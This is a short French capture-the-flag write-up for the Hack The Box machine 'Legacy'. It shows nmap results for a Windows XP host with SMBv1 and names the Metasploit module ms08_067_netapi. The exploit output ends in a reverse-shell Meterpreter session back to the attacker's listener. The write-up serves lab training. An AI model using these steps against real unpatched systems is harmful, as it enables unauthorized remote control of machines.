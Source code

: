 # Legacy - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-06 16:07 EST
Nmap scan report for 10.10.10.4
Host is up (0.032s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 4d18h57m57s, deviation: 1h24m50s, median: 4d17h57m57s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:7f:8f (VMware)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-02-11T19:05:22+02:00
```

On remarque directement que la version de windows est très vieille (2000) avec SMB v1, on va donce essayer de trouver des exploits anciens pour SMB.

On trouve la vulnérabilité ms08_067_netapi sur metasploit. Elle fonctionne directement

```bash
[*] Started reverse TCP handler on 10.10.16.6:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:Unknown
[*] 10.10.10.4:445 - We could not detect the language pack, defaulting to English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.16.6:4444 -> 10.10.10.4:1032) at 2023-02-06 16:42:12 -0500

(Meterpreter 1)(C:\WINDOWS\system32) >
```

On obtient le flag user et root.